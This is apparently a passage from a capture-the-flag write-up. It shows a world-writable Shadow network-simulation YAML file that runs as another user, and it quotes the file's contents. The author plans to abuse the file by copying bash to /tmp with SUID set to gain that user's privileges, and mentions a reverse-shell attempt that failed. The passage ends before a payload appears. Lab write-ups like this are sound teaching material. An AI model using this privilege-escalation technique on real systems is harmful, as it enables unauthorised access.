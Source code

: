 Examining the /dev/shm/network-simulation.yml file, we can see that this file will execute ```python3 -m http.server 80``` and ```curl -s server```

```
general:
  # stop after 10 simulated seconds
  stop_time: 10s
  # old versions of cURL use a busy loop, so to avoid spinning in this busy
  # loop indefinitely, we add a system call latency to advance the simulated
  # time when running non-blocking system calls
  model_unblocked_syscall_latency: true

network:
  graph:
    # use a built-in network graph containing
    # a single vertex with a bandwidth of 1 Gbit
    type: 1_gbit_switch

hosts:
  # a host with the hostname 'server'
  server:
    network_node_id: 0
    processes:
    - path: /usr/bin/python3
      args: -m http.server 80
      start_time: 3s
  # three hosts with hostnames 'client1', 'client2', and 'client3'
  client:
    network_node_id: 0
    quantity: 3
    processes:
    - path: /usr/bin/curl
      args: -s server
      start_time: 5s
```

Checking the permissions of the file, we also notice that we are able to write to the file as well

```
postgres@jupiter:/dev/shm$ ls -la network-simulation.yml
ls -la network-simulation.yml
-rw-rw-rw- 1 juno juno 815 Mar  7  2023 network-simulation.yml
```

When I tried to modify the network-simulation.yml file to spawn a reverse shell connection, it seemed that it was unable to do so. Hence, I will be copying a bash shell to the /tmp directory and elevating it with SUID privileges so that I can obtain a bash shell with the privileges of juno. 

```
general:
  # stop after 10 simulated seconds
  stop_time: 10s
  # old versions of cURL use a busy loop, so to avoid spinning in this busy
  # loop indefinitely, we add a system call latency to advance the simulated
  # time when running non-blocking system calls
  model_unblocked_syscall_latency: true

network:
  graph:
    # use a built-in network graph containing
    # a single vertex with a bandwidth of 1 Gbit
    type: 1_gbit_switch

hosts:
  # a host with the hostname 'server'
  server:
    network_node_id: 0
```